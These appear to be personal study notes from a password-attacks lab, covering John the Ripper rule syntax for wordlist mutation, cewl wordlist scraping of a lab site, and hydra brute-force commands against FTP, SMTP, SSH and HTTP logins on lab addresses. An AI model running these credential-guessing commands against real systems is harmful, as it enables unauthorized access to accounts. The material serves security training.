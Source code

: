 CUSTOM RULES
Let's say we wanted to create a custom wordlist from a pre-existing dictionary with custom modification to the original dictionary. The goal is to add special characters (ex: !@#$*&) to the beginning of each word and add numbers 0-9 at the end.
- `[symbols]word[0-9]`

```
sudo nano /etc/john/john.conf 

[List.Rules:THM-Password-Attacks] Az"[0-9]" ^[!@#$]
```

^[!@#$] add a special character at the beginning of each word. ^ means the beginning of the line/word. Note, changing ^ to $ will append the special characters to the end of the line/word.

create a file that has `password` 
`echo "password" > /tmp/single.lst`
```
john --wordlist=/tmp/single.lst --rules=THM-Password-Attacks --stdout
```


```
Az"[0-9][0-9]" ^[**]  @password80

# What syntax would you use to create a rule to produce the following "S[Word]NN

Az"[0-9][0-9]" ^[!@]
```



target is ` http://clinic.thmredteam.com `
use `cewl` to make a wordlist
` cewl -m 8 -w clinic.lst https://clinic.thmredteam.com/ `

` 10.10.34.6 `


Online password attacks involve guessing passwords for networked services that use a username and password authentication scheme, including services such as HTTP, SSH, VNC, FTP, SNMP, POP3, etc.

hydra


FTP
- `-l` ftp we are specifying a single username, use-L for a username wordlist
- `-P` Path specifying the full path of wordlist, you can specify a single password by using -p.
` hydra -l ftp -P passlist.txt ftp://10.10.34.6 `

SMTP
- port 25
- ` hydra -l email@company.xyz -P /path/to/wordlist.txt smtp://10.10.x.x -v`

SSH
- `hydra -L users.lst -P /path/to/wordlist.txt ssh://10.10.x.x -v`

HTTP
- GET, POST
- `hydra http-get-form -U`
- `<url>:<form parameters>:<condition string>[:<optional>[:<optional>]`
